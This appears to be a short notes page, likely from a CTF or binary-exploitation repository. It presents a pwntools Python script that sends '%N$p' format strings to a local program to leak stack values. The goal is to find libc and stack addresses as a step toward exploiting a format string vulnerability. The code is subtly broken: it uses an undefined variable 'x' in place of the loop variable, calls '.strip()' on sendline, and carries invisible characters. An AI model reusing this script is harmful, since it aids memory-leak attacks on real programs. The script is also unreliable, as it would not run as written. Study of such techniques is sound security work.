 # Fuzzer

Here is a fuzzer that I have written which can be used when a format string vulnerability is present. This will leak values off of the stack, and you can know which value they are. You can then check whether they're `libc` pointers or `stack` pointers etc.

```python
from pwn import *

​binary = "program"
fuzzer_range = 100

​e = ELF(f"./{binary}")
p = process(e.path)

​for i in range(0, fuzzer_range):
    p.sendline(f"%{x}$p").strip()
    p.clean()
    try:
        leak = int(p.recvline(), 16)
        print(f"%{x}$p : {hex(leak)}")
    except:
        pass
```

